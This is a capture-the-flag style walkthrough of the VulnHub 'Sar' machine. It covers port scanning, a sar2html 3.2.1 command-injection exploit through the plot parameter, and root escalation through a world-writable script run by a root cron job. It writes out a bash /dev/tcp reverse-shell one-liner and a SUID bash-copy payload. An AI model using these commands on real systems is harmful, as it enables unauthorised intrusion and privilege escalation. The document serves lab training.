




Return to Main Page
Sar Walkthrough
Summary
Port Scanning
Running a port scan against the full port range to determine which ones are open.
# Nmap 7.91 scan initiated Fri Sep 24 11:04:26 2021 as: nmap -p- -oN ping_tcp 10.0.0.18
Nmap scan report for 10.0.0.18
Host is up (0.0018s latency).
Not shown: 65534 closed ports
PORT STATE SERVICE
80/tcp open http
MAC Address: 00:0C:29:56:34:62 (VMware)
# Nmap done at Fri Sep 24 11:04:34 2021 -- 1 IP address (1 host up) scanned in 7.76 seconds
Running an nmap scan using the flags -sV and -sC to enumerate service versions and other information.
# Nmap 7.91 scan initiated Fri Sep 24 11:05:28 2021 as: nmap -p80 -sV -sC -oN script_tcp 10.0.0.18
Nmap scan report for 10.0.0.18
Host is up (0.00021s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:56:34:62 (VMware)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 24 11:05:41 2021 -- 1 IP address (1 host up) scanned in 13.12 seconds
Information Gathering
The web server on port 80 seems to be the only service running. I start off with some gobuster scans to try to enumerate any hidden directories. Nothing turns up so I turn my attention to /robots.txt.

The robots.txt file lists "sar2HTML", so I visit that directory, which takes us to a webste hosting sar2html version 3.2.1. I use searchsploit and look for an exploit for sar2html 3.2.1 and I get results.
┌──(kali㉿kali)-[~/Documents/VulnHub/Sars]
└─$ searchsploit sar2html
---------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
---------------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution | php/webapps/47204.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
┌──(kali㉿kali)-[~/Documents/VulnHub/Sars]
└─$ searchsploit -m 49344
Exploit: sar2html 3.2.1 - 'plot' Remote Code Execution
URL: https://www.exploit-db.com/exploits/49344
Path: /usr/share/exploitdb/exploits/php/webapps/49344.py
File Type: Python script, ASCII text executable
Copied to: /home/kali/Documents/VulnHub/Sars/49344.py
I download php/webapps/49344.py to take a look at.

Based on the exploit script above, we can simply execute commands by browsing to the url /sar2HTML/index.php?plot=;<command>

In the above, we can see how we are manually able to do what the script does, and it works. We get command execution. Now we go for a reverse shell. I will use "bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'" for my reverse shell and url encode it.

Foothold
One of the first things I always do is check for cronjobs using "cat /etc/cron*"
www-data@sar:/var/www/html$ cat /etc/cron*
cat: /etc/cron.d: Is a directory
cat: /etc/cron.daily: Is a directory
cat: /etc/cron.hourly: Is a directory
cat: /etc/cron.monthly: Is a directory
cat: /etc/cron.weekly: Is a directory
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user command
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5 * * * * root cd /var/www/html/ && sudo ./finally.sh
This turns up something interesting. Root is running /var/www/html/finally.sh on a cron job. Let's see what finally.sh does.
www-data@sar:/var/www/html$ cat finally.sh
#!/bin/sh
./write.sh
It appears that finally.sh simply runs write.sh. We do not have write permissions to finally.sh so we cannot exploit it directly. So let's take a look at write.sh and see what we can do with that.
www-data@sar:/var/www/html$ ls -la write.sh
-rwxrwxrwx 1 www-data www-data 30 Oct 21 2019 write.sh
www-data@sar:/var/www/html$ cat write.sh
#!/bin/sh
touch /tmp/gateway
write.sh simply creates the file /tmp/gateway. However, we have write access to write.sh, so all we need to do is edit the contents with our own malicious command. When root runs finally.sh under it's cronjob, it will execute write.sh, which will execute out malicious command.
Privesc - Root
www-data@sar:/var/www/html$ cat write.sh
#!/bin/sh
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
The above command will create a bash file owned by root with the SUID bit set in the /tmp directory. After editing it, we navigate to the /tmp folder and wait for the cronjob to execute. Which is set for every 5 minutes.
- Once in the /tmp folder you can run the command "watch -n 1 ls -la" and the window will refresh the /tmp folder every 1 second using the ls -la command. This is an easy way to watch for the creation of the rootbash file.
www-data@sar:/tmp$ ls -la
total 1096
drwxrwxrwt 2 root root 4096 Sep 24 19:42 .
drwxr-xr-x 24 root root 4096 Oct 20 2019 ..
-rwsr-sr-x 1 root root 1113504 Sep 24 19:42 rootbash
Now we execute rootbash with the -p flag and we get a shell with root permissions.